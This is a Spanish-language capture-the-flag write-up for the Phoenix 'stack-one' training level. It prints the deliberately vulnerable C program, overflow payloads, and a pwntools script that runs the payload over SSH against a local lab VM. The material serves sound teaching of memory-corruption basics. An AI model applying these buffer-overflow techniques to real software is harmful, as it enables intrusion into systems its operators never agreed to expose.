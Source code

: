 ```yaml
---
layout: single
title: "Stack One"
permalink: /pwn/phoenix/stack-one/
parent: Phoenix
comments: true
excerpt: "Stack One"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **modificar variables a valores específicos dentro de la memoria**, aprovechando un desbordamiento de buffer.  

El binario está ubicado en:  

##  Consejos útiles

- `man ascii` puede ayudarte a traducir valores hexadecimales a caracteres.  
- Ten en cuenta la [endianess](https://en.wikipedia.org/wiki/Endianness) de la arquitectura, ya que afecta el orden en el que se guardan los bytes en memoria.  

---


**Consejos:**

- `man ascii` Puedo decirte cuáles son los caracteres hexadecimales.
- ¿Tiene problemas? ¿Cómo funciona el [endianidad](https://en.wikipedia.org/wiki/Endianness) ¿De la arquitectura afecta el diseño de cómo se disponen las variables?

```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>    // Biblioteca para funciones de manejo de errores
#include <stdio.h>  // Biblioteca estándar para entrada/salida
#include <stdlib.h> // Biblioteca para funciones generales, como exit()
#include <string.h> // Biblioteca para funciones de manipulación de cadenas
#include <unistd.h> // Biblioteca para funciones del sistema POSIX, como sleep()

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa

int main(int argc, char **argv) { 
  // Punto de entrada del programa principal. Toma el número de argumentos y sus valores.

  struct { 
    char buffer[64];          // Define un espacio de memoria para una cadena de 64 bytes.
    volatile int changeme;    // Variable marcada como "volatile", para evitar optimizaciones. Su valor debe ser cambiado por el exploit.
  } locals;                   // Crea una estructura llamada 'locals' que agrupa las dos variables.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida almacenado en la constante BANNER.

  if (argc < 2) { 
    // Verifica que el usuario haya proporcionado al menos un argumento al programa.
    errx(1, "specify an argument, to be copied into the \"buffer\"");
    // Si no se proporciona un argumento, muestra un mensaje de error y finaliza el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, argv[1]); 
  // Copia el argumento proporcionado (argv[1]) en el buffer 'buffer'.
  // Vulnerabilidad: No se verifica el tamaño del argumento, lo que puede provocar un desbordamiento de búfer.

  if (locals.changeme == 0x496c5962) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x496c5962.
    puts("Well done, you have successfully set changeme to the correct value");
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
    // Si el valor es incorrecto, imprime el valor actual de 'changeme' y el valor esperado.
  }

  exit(0); 
  // Finaliza el programa correctamente con el código de salida 0.
}

```

Se corre el programa y como se ve en el código se le debe pasar un parámetro

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one 
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
```

al poner un valor como A nos devuelve que cada vez más cerca y nos da el valor de 0x00000000

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one A
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

```

Al poner los 64 caracteres como en el pasado y despues seguir con BBBB nos dice el mismo mensaje pero ahora se ha cambiado el valor por 0x42424242 lo cual quiere decir que ya cambiamos el valor 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962

```

ahora vamos a poner el valor esperado y vemos que se cumple con el reto

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A" * 64 + "\x62\x59\x6c\x49"')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Se realiza el exploit para este reto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64 + b"\x62\x59\x6c\x49"
   6   │ 
   7   │ # Establece conexión SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ #  Ejecuta el programa remoto con la primera condición
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-one', payload])
  12   │ 
  13   │ # Captura y muestra la salida
  14   │ flag = process.recvall().decode()
  15   │ log.success("Output: " + flag)
  16   │ 
  17   │ # Cierra la conexión
  18   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

Se evidencia el mensaje que indica que el reto fue completado

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 554
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-one'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-one' on localhost (pid 554)
[+] Output: Welcome to phoenix/stack-one, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value

```